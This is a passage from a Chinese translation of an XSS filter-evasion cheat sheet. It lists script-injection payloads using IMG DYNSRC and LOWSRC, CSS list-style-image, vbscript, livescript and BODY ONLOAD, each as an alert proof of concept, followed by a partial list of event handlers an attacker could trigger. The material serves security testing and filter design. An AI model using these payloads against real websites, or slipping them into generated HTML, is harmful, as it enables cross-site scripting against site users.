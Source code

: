 ## IMG DYNSRC(视频剪辑)

```
<IMG DYNSRC="javascript:alert('XSS')">
```

## IMG lowsrc（低分辨率图片）

```
<IMG LOWSRC="javascript:alert('XSS')">
```

## List-style-image

```
<STYLE>li {list-style-image: url("javascript:alert('XSS')");}</STYLE><UL><LI>XSS</br>
```

## List-style-image

为带有符号的列表嵌入自定义图片的符号。它是只能工作在 ie 渲染引擎因为 javascript 指令。这不是一个特别有用的 xss 向量。

```
<STYLE>li {list-style-image: url("javascript:alert('XSS')");}</STYLE><UL><LI>XSS</br>
```

## VBscript in an image

```
<IMG SRC='vbscript:msgbox("XSS")'>
```

## Livescript (仅适用于老版本的 Netscape)

```
<IMG SRC="livescript:[code]">
```

## BODY 标签

这个方法不需要使用任何 "javascript:" or "

```
<BODY ONLOAD=alert('XSS')>
```

## 事件处理程序

它可以被用于上文中的一些共性 xss 攻击（这是最完整的一个实时更新的在线列表）。感谢 Rene Ledosquet 的更新。此外你可以参考 [Dottoro Web Reference](http://help.dottoro.com/) 或是 [events in JavaScript](http://help.dottoro.com/ljfvvdnm.php) .

1.  FSCommand() (攻击者可以使用它当执行一个嵌入的 flash 对象时)
2.  onAbort() (当使用者终止一张正在载入的图片)
3.  onActivate() (当对象被设置为激活元素)
4.  onAfterPrint() (用户打印或是预览打印工作后激活)
5.  onAfterUpdate() (激活在一个数据对象当源对象数据更新后)
6.  onBeforeActivate() (触发在一个对象被设置为激活元素)
7.  onBeforeCopy() (攻击者执行攻击代码在一个选区被复制到剪贴板之前 - 攻击者可以实现它通过 execCommand("Copy") 函数。)
8.  onBeforeCut() (攻击者执行攻击代码在在一个选区被剪贴。)
9.  onBeforeDeactivate() (当激活元素被改变后触发)
10.  onBeforeEditFocus() (触发在一个可被编辑的元素内的对象就按测到一个 UI-activated 状态或是一个可被编辑对象被选择之前)
11.  onBeforePaste() (用户需要被欺骗执行粘贴或是去触发它通过 execCommand("Paste") 函数。)
12.  onBeforePrint() (用户需要被欺骗执行打印或是攻击者可以使用 print() 或是 execCommand("Print") 函数。)
13.  onBeforeUnload() (用户需要被欺骗关闭浏览器 - 攻击者不可以 unload windows 除非它是被执行从其父窗口。)
14.  onBeforeUpdate() (激活在数据对象在源对象更新数据之后。)
15.  onBegin() (onbegin 事件被立即触发当元素的声明周期开始后)